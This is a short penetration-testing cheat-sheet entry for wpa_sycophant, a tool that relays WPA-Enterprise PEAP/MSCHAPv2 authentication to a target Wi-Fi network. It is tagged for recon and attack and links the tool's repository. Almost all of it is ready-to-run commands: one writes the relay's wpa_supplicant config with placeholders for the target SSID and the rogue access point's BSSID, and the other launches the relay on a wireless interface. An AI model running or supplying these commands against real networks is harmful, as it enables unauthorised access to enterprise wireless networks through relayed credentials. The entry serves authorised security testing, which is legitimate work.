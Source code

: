 # wpa_sycophant
% wifi, wpa_sycophant, wifi relay attack
#plateform/linux #target/remote #cat/RECON #cat/ATTACK

## _desc
```

```

## _repo
```
https://github.com/sensepost/wpa_sycophant/tree/master
```

## _doc
```
https://wiki.archlinux.org/title/Wpa_supplicant
```

## _install
```
```

## create config
```bash
echo -e 'network={\n    ssid="<ssid>"\n    scan_ssid=1\n    key_mgmt=WPA-EAP\n    identity=""\n    anonymous_identity=""\n    password=""\n    eap=PEAP\n    phase1="crypto_binding=0 peaplabel=0"\n    phase2="auth=MSCHAPV2"\n    bssid_blacklist=<hostapd-mana_bssid>\n}' > wpa_sycophant.config
```

## launch relay
```bash
wpa_sycophant.sh -c wpa_sycophant.config -i <wlan_interface|wlan1>
```